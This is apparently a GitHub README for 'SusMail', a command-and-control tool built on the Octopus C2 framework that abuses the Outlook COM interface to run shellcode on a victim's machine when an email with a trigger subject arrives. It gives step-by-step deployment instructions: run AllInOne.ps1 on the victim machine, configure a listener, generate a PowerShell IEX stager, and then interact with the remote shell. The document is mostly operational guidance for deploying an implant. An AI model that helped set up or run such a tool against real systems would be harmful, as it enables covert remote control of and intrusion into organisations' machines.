 C2 over Microsofts' Outlook based on Octopus as backend

# What is Octopus ? ![](https://img.shields.io/badge/python-3-yellow)
  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

'SusMail' leverages the Outlook Application Interface (COM Interface) to execute shellcode on a system based on a specific trigger subject line. By utilizing the Microsoft.Office.Interop.Outlook namespace, developers can represent the entire Outlook Application. 



# About the PowerShell agent 
This is gonna ran on the victim's machine(inside the internal organization):
just run the script: ```./AllInOne.ps1```




# Requirements & Pre-requisites & installation

1. Machine that will hold the backend based on Octupus(python) - You can install all  Octopus' requirements via :

```pip install -r requirements.txt```

You have to change the next details before you start:
* change the $username and $password ```./agents/agent.ps1.oct ```
* erasing all the emails from the inbox
* permit email account communication with low security apps
if there any problem with it:
https://support.google.com/mail/answer/7126229?visit_id=637650667152983230-1024873670&rd=2#cantsignin&zippy=%2C%D7%9C%D7%90-%D7%94%D7%A6%D7%9C%D7%97%D7%AA%D7%99-%D7%9C%D7%94%D7%99%D7%9B%D7%A0%D7%A1-%D7%9C%D7%AA%D7%95%D7%9B%D7%A0%D7%AA-%D7%94%D7%90%D7%99%D7%9E%D7%99%D7%99%D7%9C-%D7%A9%D7%9C%D7%99


`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[askar@hackbook]─[/opt/redteaming/Octopus]
└──╼ $python3 octopus.py



      ___           ___                       ___           ___         ___           ___
     /  /\         /  /\          ___        /  /\         /  /\       /__/\         /  /\
    /  /::\       /  /:/         /  /\      /  /::\       /  /::\      \  \:\       /  /:/_
   /  /:/\:\     /  /:/         /  /:/     /  /:/\:\     /  /:/\:\      \  \:\     /  /:/ /\
  /  /:/  \:\   /  /:/  ___    /  /:/     /  /:/  \:\   /  /:/~/:/  ___  \  \:\   /  /:/ /::\
 /__/:/ \__\:\ /__/:/  /  /\  /  /::\    /__/:/ \__\:\ /__/:/ /:/  /__/\  \__\:\ /__/:/ /:/\:\
 \  \:\ /  /:/ \  \:\ /  /:/ /__/:/\:\   \  \:\ /  /:/ \  \:\/:/   \  \:\ /  /:/ \  \:\/:/~/:/
  \  \:\  /:/   \  \:\  /:/  \__\/  \:\   \  \:\  /:/   \  \::/     \  \:\  /:/   \  \::/ /:/
   \  \:\/:/     \  \:\/:/        \  \:\   \  \:\/:/     \  \:\      \  \:\/:/     \__\/ /:/
    \  \::/       \  \::/          \__\/    \  \::/       \  \:\      \  \::/        /__/:/
     \__\/         \__\/                     \__\/         \__\/       \__\/         \__\/




 Octopus C2 | Control your shells


Octopus >>

```
# Usage

> listen_http 0.0.0.0 8080 <your_domain> 10 comments1.php <listener_name>
> generate_powershell <listener_name>


*Now copy the first IEX and run it from machine that has access to your gmail account


> (after connection established): 
> interact 1
* And you will able to run os PS commands




# Credits
based on Octopus Project, thanks for * [mhaskar](https://github.com/mhaskar/Octopus)


